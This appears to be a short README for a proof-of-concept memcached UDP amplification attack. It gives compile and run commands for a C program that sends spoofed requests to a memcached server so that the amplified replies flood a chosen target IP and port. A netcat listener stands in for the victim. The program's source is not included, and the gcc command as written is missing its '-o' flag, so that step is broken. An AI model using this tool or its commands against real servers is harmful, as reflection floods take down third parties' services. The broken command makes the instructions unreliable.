 # memcached_amplification
Proof of concept for memcached amplification attack over UDP

# Compile
gcc spoof_memcached_udp_request.c spoof_memcached_udp_request

# Run
./spoof_memcached_udp_request <memcached_server_ip> <memcached_server_port> <target_ip> <target_port>

`./spoof_memcached_udp_request 127.0.0.1 11211 127.0.0.1 8888`

# Faking a target server
`sudo nc -ul -p 8888`

